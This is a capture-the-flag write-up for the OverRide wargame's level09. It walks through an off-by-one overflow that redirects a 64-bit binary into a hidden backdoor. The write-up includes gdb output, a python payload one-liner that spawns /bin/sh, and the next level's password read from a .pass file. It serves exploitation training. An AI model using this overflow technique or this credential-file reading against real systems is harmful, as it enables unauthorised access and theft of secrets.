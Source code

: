 # level09

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

```console
level09@OverRide:~$ checksec --file ./level09
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./level09
```

From our analysis of the program, here are the different steps performed :

- The `main` function calls `handle_msg` which declares a structure containing a 40 bytes buffer we will call `username`, another one of 140 bytes, `msg`, and an integer, `msglen`, set to 140.

- The structure address is sent to `set_username` which fills an intermediate buffer of 128 bytes thanks to a `fgets` call on the standard input, then uses a `for` loop that copies 41 characters from the intermediate buffer to `username`. A programming error is present here and opens a vulnerability. Indeed, the `username` variable is an array of 40 characters but the `for` loop goes through 41 characters, allowing us to overwrite one byte of the next structure's variable `msglen`.

- The next function called `set_msg` is similar to `set_username` : a buffer of 1024 bytes is filled with `fgets`, then copied to `msg` via `strncpy` with the `msglen` variable as its size parameter. Since we know we can overwrite one byte of `msglen` value, we will try to reach the return address pointer of `handle_msg` by copying enough bytes.

According to `checksec` output, we can't execute code from the stack, hopefully a hidden function `secret_backdoor` has been declared.

```gdb
gdb-peda$ pd secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   rbp
   0x000055555555488d <+1>:     mov    rbp,rsp
   0x0000555555554890 <+4>:     add    rsp,0xffffffffffffff80
   0x0000555555554894 <+8>:     mov    rax,QWORD PTR [rip+0x20171d]
   0x000055555555489b <+15>:    mov    rax,QWORD PTR [rax]
   0x000055555555489e <+18>:    mov    rdx,rax
   0x00005555555548a1 <+21>:    lea    rax,[rbp-0x80]
   0x00005555555548a5 <+25>:    mov    esi,0x80
   0x00005555555548aa <+30>:    mov    rdi,rax
   0x00005555555548ad <+33>:    call   0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:    lea    rax,[rbp-0x80]
   0x00005555555548b6 <+42>:    mov    rdi,rax
   0x00005555555548b9 <+45>:    call   0x555555554740 <system@plt>
   0x00005555555548be <+50>:    leave
   0x00005555555548bf <+51>:    ret
End of assembler dump.
```

This function calls `fgets` to fill a buffer of 128 characters from the standard input, then uses it as a command sent to `system`.

## Exploit

Since the binary has been compiled in 64-bit, we need to find the right offset to overwrite the content of the stack pointer RSP (not the EIP/RIP) in order to make `handle_msg` jump to `secret_backdoor` instead of returning to `main`.

To do so, We prepare the following string : 40 characters + the bigger one-byte value (0xff or 255) to overwrite `msglen` value and make `strncpy` go as far as we can + a newline character to end the first `fgets` + a string of 256 characters generated via this [buffer overflow string generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) that supports 64-bit registers.

```console
level09@OverRide:~$ python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A"' > /tmp/level09
```

```gdb
gdb-peda$ r < /tmp/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0xd ('\r')
RBX: 0x0
RCX: 0x7ffff7b01f90 (<write+16>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffff7dd5a90 --> 0x0
RSI: 0x7ffff7ff7000 (">>: >: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
RDI: 0xffffffff
RBP: 0x6741356741346741 ('Ag4Ag5Ag')
RSP: 0x7fffffffe5c8 ("6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4")
RIP: 0x555555554931 (<handle_msg+113>:	ret)
R8 : 0x7ffff7ff7004 (">: Msg sent!\n", 'A' <repeats 39 times>"\377, >: Msg @Unix-Dude\n")
R9 : 0xc ('\x0c')
R10: 0x21 ('!')
R11: 0x246
R12: 0x555555554790 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe6b0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:	lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:	call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:	leave
=> 0x555555554931 <handle_msg+113>:	ret
   0x555555554932 <set_msg>:	push   rbp
   0x555555554933 <set_msg+1>:	mov    rbp,rsp
   0x555555554936 <set_msg+4>:	sub    rsp,0x410
   0x55555555493d <set_msg+11>:	mov    QWORD PTR [rbp-0x408],rdi
```

We provide the RBP address `0x6741356741346741` to our tool, then add 8 to the result to reach the RSP content offset, 200.

Now, we get the `secret_backdoor` address with gdb. Note that the program must have been started to get the right address after the dynamic relocation.

```gdb
gdb-peda$ info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

From here we have everything we need to perform the exploit. Let's generate our final string, composed of three parts :

- In first, we copy the same string as the previous one we have used to fill the first `fgets` call and overwrite `msglen` value, but we may change this value to match exactly the needed size, 200 + 8 bytes (for the address itself), so 0xd0 in hexadecimal.

- Then, 200 characters to reach the offset, the `secret_backdoor` address which will overwrite the content of RSP, and a newline character to stop the second `fgets` reading.

- Finally, if everything works as expected, we will jump to `secret_backdoor` which uses a third `fgets` to get the command to send to `system`, so we just add `"/bin/sh"`. Here we go !

```console
python -c 'print "A" * 40 + "\xd0" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/level09
level09@OverRide:~$ cat /tmp/level09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```